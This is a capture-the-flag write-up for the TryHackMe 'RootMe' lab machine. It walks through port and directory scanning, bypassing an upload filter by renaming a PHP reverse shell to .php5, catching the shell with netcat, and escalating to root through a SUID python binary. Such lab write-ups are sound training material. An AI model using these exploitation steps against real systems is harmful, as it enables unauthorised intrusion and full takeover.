





<table>
  <tr>
    <td>
      
    </td>
    <td width="900">
      <h1>RootMe — Write-up</h1>
      <p>A ctf for beginners, can you root me?</p>
      <p><strong>Difficulty:</strong> Easy 🟢</p>
       &nbsp;
       &nbsp;
      
    </td>
  </tr>
</table>

https://tryhackme.com/room/rrootme

Connect to TryHackMe network and deploy the machine. If you don't know how to do this, complete the OpenVPN room first.

### Task 1 Deploy the machine<br>
`No answer needed`

---

### Task 2 Reconnaissance

First, let's get information about the target.

**Answer the questions below**

Scan the machine, how many ports are open?

```bash
└─$ nmap <target_ip> -p- -T4 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-02 19:14 -0300

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 333.14 seconds
```
What version of Apache is running?<br>
What service is running on port 22?

```bash
└─$ nmap -sV <target_ip> -p 22,80 -T4
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-02 19:23 -0300

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Find directories on the web server using the GoBuster tool.<br>
`No answer needed`

What is the hidden directory?

```bash
└─$ gobuster dir -u <target_ip> -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
==============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://10.64.179.205/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.64.179.205/js/]
/[redacted]           (Status: 301) [Size: 314] [--> http://10.64.179.205/[redacted]/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.64.179.205/uploads/]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```
---

### Task 3 Getting a shell

Find a form to upload and get a reverse shell, and find the flag.

***Answer the questions below***

user.txt?<br>

The application provides a public file upload form (shown below). Initial analysis suggests a potential vulnerability to malicious payloads due to insufficient extension filtering.

http://<target_ip>/[redacted]


***Payload Selection:*** 

I used the standard pentestmonkey PHP reverse shell,
adjusting IP and port to my listener.


```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```
Upload Restriction Encountered As expected, the server implemented a basic security filter that rejected the .php file extension. The screenshot below shows the error message triggered by the security mechanism.



---

***Extension Manipulation:*** .php to .php5 Since the server blocked the standard .php extension, I attempted a bypass by renaming the file to .php5. Many environments remain vulnerable to this because security filters often overlook legacy or version-specific extensions that the server is still configured to process.



---

With the payload in place, I accessed the /uploads directory identified earlier via Gobuster. I then executed the file by clicking on it, while monitoring my terminal for the incoming reverse shell connection.



---

Reverse Shell Established The listener intercepted the incoming connection as expected. As shown in the terminal output below, I successfully established a remote session, confirmed by running basic commands to verify my current user context.

```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [] from (UNKNOWN) [] 41106
Linux ip-10-64-179-205 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 22:50:32 up 46 min,  0 users,  load average: 0.00, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
### Stabilizing the Session and Capturing the Flag

```bash
$ python -c 'import pty;pty.spawn("/bin/bash")'
bash-5.0$
find / -name user.txt 2>/dev/null
/var/www/user.txt
bash-5.0$ cat /var/www/user.txt
cat /var/www/user.txt
THM{redacted}
```
---
---

## Task 4 Privilege escalation

Search for files with SUID permission, which file is weird?

```bash
bash-5.0$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python2.7
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/snap/core20/2599/usr/bin/chfn
/snap/core20/2599/usr/bin/chsh
/snap/core20/2599/usr/bin/gpasswd
/snap/core20/2599/usr/bin/mount
/snap/core20/2599/usr/bin/newgrp
/snap/core20/2599/usr/bin/passwd
/snap/core20/2599/usr/bin/su
/snap/core20/2599/usr/bin/sudo
/snap/core20/2599/usr/bin/umount
/snap/core20/2599/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/2599/usr/lib/openssh/ssh-keysign
/bin/mount
/bin/su
/bin/fusermount
/bin/umount
```

A SUID binary like python is highly unusual and dangerous,
as it allows spawning a shell while preserving privileges.

Find a form to escalate your privileges.<br>
`No answer needed`



---

#### root.txt?

```bash
bash-5.0$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# ls /root      
ls /root
root.txt  snap
# cat /root/root.txt
cat /root/root.txt
THM{[redacted]}
```

> ## PWNED! 🚩
> ### By Hirt, Nelson
